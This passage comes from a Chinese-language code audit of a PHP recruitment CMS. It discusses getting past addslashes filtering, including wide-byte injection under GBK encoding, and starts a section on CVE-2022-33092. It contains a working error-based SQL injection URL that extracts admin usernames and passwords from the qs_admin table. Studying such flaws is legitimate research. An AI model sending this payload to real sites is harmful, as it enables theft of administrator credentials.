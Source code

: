 
#### 深入思考\*2

绕过 addslashes，一般配合代码中其他的操作，比如代码后还有 urldecode、base64\_decode 等。或者是在 GBK 编码下使用宽字节注入。

修改数据库编码后，跟进代码发现，在使用 htmlspecialchars 函数进行过滤操作时，我传入的值直接没了，挺神奇的，暂时找不到原因，不然在 GBK 环境下可以实现宽字节注入。

```rb
/index.php/v1_0/home/jobfairol/resumelist?jobfair_id=1&amp;keyword='%df'%2b(select/**/updatexml(0,concat(0xa,(select/**/concat(username,password)from/**/qs_admin)),0))))%23
```

![pFseqaQ.png](assets/1710993004-632e97453361e47c1060ee1a0b0825da.png)

### v3.5.1 SQL 注入｜Job.php

漏洞信息：  
[CVE - CVE-2022-33092 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-33092)

文件路径：v1\_0/controller/home/Job.php，keyword 参数
